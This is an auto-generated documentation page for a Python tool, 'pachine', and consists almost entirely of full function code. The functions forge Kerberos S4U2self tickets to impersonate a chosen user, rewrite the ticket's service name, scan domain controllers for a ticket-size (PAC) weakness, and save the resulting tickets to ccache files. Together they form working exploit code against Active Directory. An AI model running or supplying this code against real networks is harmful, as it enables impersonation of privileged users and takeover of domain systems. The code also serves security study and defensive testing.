 # Key Objects

[_Documentation generated by Documatic_](https://www.documatic.com)

<!---Documatic-section-pachine.S4U2Self-start--->
## pachine.S4U2Self

<!---Documatic-section-S4U2Self-start--->
<!---Documatic-block-pachine.S4U2Self-start--->
<details>
	<summary><code>pachine.S4U2Self</code> code snippet</summary>

```python
def S4U2Self(tgt, user, domain, spn, impersonate, cipher, sessionKey, kdcHost):
    decodedTGT = decoder.decode(tgt, asn1Spec=AS_REP())[0]
    ticket = Ticket()
    ticket.from_asn1(decodedTGT['ticket'])
    apReq = AP_REQ()
    apReq['pvno'] = 5
    apReq['msg-type'] = int(constants.ApplicationTagNumbers.AP_REQ.value)
    opts = list()
    apReq['ap-options'] = constants.encodeFlags(opts)
    seq_set(apReq, 'ticket', ticket.to_asn1)
    authenticator = Authenticator()
    authenticator['authenticator-vno'] = 5
    authenticator['crealm'] = str(decodedTGT['crealm'])
    clientName = Principal()
    clientName.from_asn1(decodedTGT, 'crealm', 'cname')
    seq_set(authenticator, 'cname', clientName.components_to_asn1)
    now = datetime.datetime.utcnow()
    authenticator['cusec'] = now.microsecond
    authenticator['ctime'] = KerberosTime.to_asn1(now)
    if logging.getLogger().level == logging.DEBUG:
        logging.debug('AUTHENTICATOR')
        print(authenticator.prettyPrint())
        print('\n')
    encodedAuthenticator = encoder.encode(authenticator)
    encryptedEncodedAuthenticator = cipher.encrypt(sessionKey, 7, encodedAuthenticator, None)
    apReq['authenticator'] = noValue
    apReq['authenticator']['etype'] = cipher.enctype
    apReq['authenticator']['cipher'] = encryptedEncodedAuthenticator
    encodedApReq = encoder.encode(apReq)
    tgsReq = TGS_REQ()
    tgsReq['pvno'] = 5
    tgsReq['msg-type'] = int(constants.ApplicationTagNumbers.TGS_REQ.value)
    tgsReq['padata'] = noValue
    tgsReq['padata'][0] = noValue
    tgsReq['padata'][0]['padata-type'] = int(constants.PreAuthenticationDataTypes.PA_TGS_REQ.value)
    tgsReq['padata'][0]['padata-value'] = encodedApReq
    clientName = Principal(impersonate, type=constants.PrincipalNameType.NT_PRINCIPAL.value)
    S4UByteArray = struct.pack('<I', constants.PrincipalNameType.NT_PRINCIPAL.value)
    S4UByteArray += b(impersonate) + b(domain) + b'Kerberos'
    if logging.getLogger().level == logging.DEBUG:
        logging.debug('S4UByteArray')
        hexdump(S4UByteArray)
    checkSum = _HMACMD5.checksum(sessionKey, 17, S4UByteArray)
    if logging.getLogger().level == logging.DEBUG:
        logging.debug('CheckSum')
        hexdump(checkSum)
    paForUserEnc = PA_FOR_USER_ENC()
    seq_set(paForUserEnc, 'userName', clientName.components_to_asn1)
    paForUserEnc['userRealm'] = domain
    paForUserEnc['cksum'] = noValue
    paForUserEnc['cksum']['cksumtype'] = int(constants.ChecksumTypes.hmac_md5.value)
    paForUserEnc['cksum']['checksum'] = checkSum
    paForUserEnc['auth-package'] = 'Kerberos'
    if logging.getLogger().level == logging.DEBUG:
        logging.debug('PA_FOR_USER_ENC')
        print(paForUserEnc.prettyPrint())
    encodedPaForUserEnc = encoder.encode(paForUserEnc)
    tgsReq['padata'][1] = noValue
    tgsReq['padata'][1]['padata-type'] = int(constants.PreAuthenticationDataTypes.PA_FOR_USER.value)
    tgsReq['padata'][1]['padata-value'] = encodedPaForUserEnc
    reqBody = seq_set(tgsReq, 'req-body')
    opts = list()
    opts.append(constants.KDCOptions.forwardable.value)
    opts.append(constants.KDCOptions.renewable.value)
    opts.append(constants.KDCOptions.canonicalize.value)
    reqBody['kdc-options'] = constants.encodeFlags(opts)
    serverName = Principal(user, type=constants.PrincipalNameType.NT_UNKNOWN.value)
    seq_set(reqBody, 'sname', serverName.components_to_asn1)
    reqBody['realm'] = str(decodedTGT['crealm'])
    now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
    reqBody['till'] = KerberosTime.to_asn1(now)
    reqBody['nonce'] = random.getrandbits(31)
    seq_set_iter(reqBody, 'etype', (int(cipher.enctype), int(constants.EncryptionTypes.rc4_hmac.value)))
    if logging.getLogger().level == logging.DEBUG:
        logging.debug('Final TGS')
        print(tgsReq.prettyPrint())
    logging.info('Requesting S4U2self')
    message = encoder.encode(tgsReq)
    r = sendReceive(message, domain, kdcHost)
    tgs = decoder.decode(r, asn1Spec=TGS_REP())[0]
    client = Principal()
    client.from_asn1(tgs, 'crealm', 'cname')
    server = Principal()
    server.from_asn1(tgs['ticket'], 'realm', 'sname')
    logging.info('Got TGS for %s for %s' % (client, server))
    cipherText = tgs['enc-part']['cipher']
    cipher = crypto._enctype_table[tgs['enc-part']['etype']]
    plainText = cipher.decrypt(sessionKey, 8, cipherText)
    encTGSRepPart = decoder.decode(plainText, asn1Spec=EncTGSRepPart())[0]
    server = Principal()
    server.from_asn1(encTGSRepPart, 'srealm', 'sname')
    old_sname = str(server)
    server.components[0] = spn.split('/')[0]
    server.components.append(spn.split('/')[1])
    logging.info('Changing sname from %s to %s' % (old_sname, server))
    seq_set(encTGSRepPart, 'sname', server.components_to_asn1)
    plainText = encoder.encode(encTGSRepPart)
    cipherText = cipher.encrypt(sessionKey, 8, plainText, None)
    tgs['enc-part']['cipher'] = cipherText
    server = Principal()
    server.from_asn1(tgs['ticket'], 'realm', 'sname')
    server.components[0] = spn.split('/')[0]
    server.components.append(spn.split('/')[1])
    seq_set(tgs['ticket'], 'sname', server.components_to_asn1)
    r = encoder.encode(tgs)
    if logging.getLogger().level == logging.DEBUG:
        logging.debug('TGS_REP')
        print(tgs.prettyPrint())
    cipherText = tgs['enc-part']['cipher']
    plainText = cipher.decrypt(sessionKey, 8, cipherText)
    encTGSRepPart = decoder.decode(plainText, asn1Spec=EncTGSRepPart())[0]
    newSessionKey = Key(encTGSRepPart['key']['keytype'], encTGSRepPart['key']['keyvalue'])
    cipher = _enctype_table[encTGSRepPart['key']['keytype']]
    return (r, cipher, sessionKey, newSessionKey)
```
</details>
<!---Documatic-block-pachine.S4U2Self-end--->
<!---Documatic-section-S4U2Self-end--->

# #
<!---Documatic-section-pachine.S4U2Self-end--->

<!---Documatic-section-pachine.scan-start--->
## pachine.scan

<!---Documatic-section-scan-start--->
<!---Documatic-block-pachine.scan-start--->
<details>
	<summary><code>pachine.scan</code> code snippet</summary>

```python
def scan(user, password, domain, lmhash, nthash, dc):
    userName = Principal(user, type=constants.PrincipalNameType.NT_PRINCIPAL.value)
    (tgt, _, _, _) = getKerberosTGT(userName, password, domain, lmhash, nthash, kdcHost=dc, requestPAC=False)
    decodedTGT = decoder.decode(tgt, asn1Spec=AS_REP())[0]
    no_pac_len = len(decodedTGT['ticket']['enc-part']['cipher'])
    (tgt, _, _, _) = getKerberosTGT(userName, password, domain, lmhash, nthash, kdcHost=dc, requestPAC=True)
    decodedTGT = decoder.decode(tgt, asn1Spec=AS_REP())[0]
    pac_len = len(decodedTGT['ticket']['enc-part']['cipher'])
    if no_pac_len < pac_len * SCAN_THRESHOLD:
        logging.info('Domain controller %s is most likely vulnerable' % dc)
        return True
    else:
        logging.warning('Domain controller %s is most likely not vulnerable' % dc)
        return False
```
</details>
<!---Documatic-block-pachine.scan-end--->
<!---Documatic-section-scan-end--->

# #
<!---Documatic-section-pachine.scan-end--->

<!---Documatic-section-pachine.saveTicket-start--->
## pachine.saveTicket

<!---Documatic-section-saveTicket-start--->
<!---Documatic-block-pachine.saveTicket-start--->
<details>
	<summary><code>pachine.saveTicket</code> code snippet</summary>

```python
def saveTicket(ticket, sessionKey, fileName):
    logging.info('Saving ticket in %s' % (fileName + '.ccache'))
    ccache = CCache()
    ccache.fromTGS(ticket, sessionKey, sessionKey)
    ccache.saveFile(fileName + '.ccache')
```
</details>
<!---Documatic-block-pachine.saveTicket-end--->
<!---Documatic-section-saveTicket-end--->

# #
<!---Documatic-section-pachine.saveTicket-end--->

[_Documentation generated by Documatic_](https://www.documatic.com)
